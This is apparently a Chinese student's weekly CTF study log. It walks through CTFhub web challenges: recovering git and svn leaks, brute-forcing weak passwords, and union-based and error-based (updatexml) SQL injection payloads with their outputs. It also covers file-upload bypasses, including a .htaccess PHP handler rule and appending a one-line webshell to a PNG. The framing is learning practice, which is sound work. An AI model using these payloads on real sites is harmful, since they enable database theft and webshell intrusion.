# `<font style="color:rgb(38, 38, 38);">`完成事项 `</font>`

+ 学习CTFhub中的web项，信息泄露的所有题、弱口令、sql注入（整数、字符、报错）、文件上传（除00截断、双写后缀）。
+ 学习了git的基本使用方法。

# `<font style="color:rgb(38, 38, 38);">`下周待做事项 `</font>`

+ 继续学习web项，将web题尽量做完。

# `<font style="color:rgb(38, 38, 38);">`本周学习的知识分享 `</font>`

#### git泄露

使用githack，获取服务器的git内容。使用 `git log`可以查看版本的历史记录。找到 `ADD FLAG`对应的 `commit_id`，使用 `git reset --hard commit_id`命令回退到ADD FLAG版本，cat flag。

##### stash

使用 `git stash list` 显示保存进度的列表，发现有 stash，使用 `git stash pop` 恢复最新的进度到工作区，这个文件的内容就是 flag。

##### .svn&.hg

都可以使用dvcs-ripper工具。

#### 弱口令

使用burpsuit字典直接爆破。

#### SQL注入

group_concat()返回结果为连接参数产生的字符串。

`information_schema.columns where table_schema='库名' and table_name='表名'`

##### 整数型注入

`?id=0 union select 1,database()`回显 `ID: 1 Data: sqli`可得数据库为sqli。

查询sqli库中所有表： `?id=0 union select 1,group_concat(table_name) from information_schema.tables where table_schema='sqli' `回显 `ID: 1 Data: flag,news`可得有一个flag的表。

查询flag表中有什么字段： `?id=-1 union select 1,group_concat(column_name) from information_schema.columns where table_schema='sqli'`回显 `ID: 1 Data: flag,id,data`可得有一个flag字段。

查询flag字段内容：`?id=-1 union select 1,group_concat(flag) from flag`回显 `ID: 1 Data: ctfhub{a3103d63f3e01ccb9d4fa663}`

##### 字符型注入

与整数型注入类似，只需在 `id=-1`后添加后引号将引号闭合，再在payload最后加上 `#`注释掉原本最后的后引号即可

##### 报错注入

查询库名：`1 and updatexml(1,concat(0x7e,database(),0x7e,user(),0x7e,@@datadir),1)#`

查询库中所有表：`1 and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1) #`

查询flag表中所有字段：`1 and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='sqli' and table_name='flag'),0x7e),1) #`

查询flag：`1 and updatexml(1,concat(0x7e,(select group_concat(flag) from sqli.flag)),1) #`

#### 文件上传

##### 无验证

直接上传一句话木马，然后用蚁剑连接即可。

##### 前端验证

直接F12禁用js，上传一句话木马。

##### .htaccess

上传一个.htaccess文件内容 `<FilesMatch "shell"> Sethandler application/x-httpd-php  </FilesMatch>`，再上传一个jpg后缀的一句话木马即可。

##### MIME绕过

burp抓包上传一个 `.jpg`后缀的一句话木马，再在burp中把 `filename`改回.php后缀，上传即可。

##### 文件头检查

cmd中使用命令将png文件和一句话木马结合在一起 `copy .\QQ20241017-200855.png/b + .\shell.php mm.png `生成mm.php。再用burp抓包上传mm.php，再在burp中把 `filename`改回.php后缀，上传即可。

# `<font style="color:rgb(38, 38, 38);">`本周学习总结 `</font>`

每一次做题的同时写WP，可以减少后期补的痛苦。
